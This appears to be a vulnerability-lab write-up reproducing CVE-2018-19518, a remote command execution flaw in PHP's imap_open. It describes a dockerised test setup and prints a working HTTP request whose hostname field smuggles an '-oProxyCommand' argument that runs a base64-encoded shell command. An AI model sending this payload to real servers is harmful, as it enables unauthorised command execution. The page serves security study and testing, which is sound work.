

PHP IMAP Remote Command Execution (CVE-2018-19518)¶
The PHP IMAP extension is used for email operations in PHP. Its imap_open function calls rsh to connect to remote shells. In Debian/Ubuntu systems, ssh is used by default instead of rsh (meaning when you execute the rsh command, it actually executes ssh).
Since the ssh command allows setting -oProxyCommand= to call third-party commands, attackers can inject this parameter to achieve remote command execution.
References:
- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681
- https://nvd.nist.gov/vuln/detail/CVE-2018-19518
Environment Setup¶
Execute the following command to start a vulnerable PHP server:
docker compose up -d
After the server starts, visit http://your-ip:8080 to access the web page. The web functionality tests whether a mail server can be successfully connected, requiring server address, username, and password.
The source code can be found in index.php
Vulnerability Reproduction¶
Send the following request to execute the command echo '1234567890'>/tmp/test0001:
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
Execute docker compose exec web bash to enter the container, and you can see that /tmp/test0001 has been successfully created:
